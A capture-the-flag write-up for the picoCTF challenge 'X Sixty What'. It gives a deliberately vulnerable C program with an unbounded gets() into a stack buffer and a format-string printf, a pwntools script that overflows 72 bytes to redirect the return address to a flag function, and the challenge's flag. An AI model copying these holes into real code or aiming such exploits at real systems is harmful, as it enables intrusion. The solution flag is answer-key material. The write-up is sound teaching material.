 # X Sixty What

Simplest return overwrite, in x64!

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
## Solution

Running the program through gdb, we can find our address to return to, and with a bit of gdb debugging, we get this program:

```python
from pwn import *

con = remote("saturn.picoctf.net", 56609)

payload = "a" * 72

payload += p64(0x000000000040123b)

con.sendline(payload)

con.interactive()
```

This gets us our flag: `picoCTF{b1663r_15_b3773r_964d9987}`
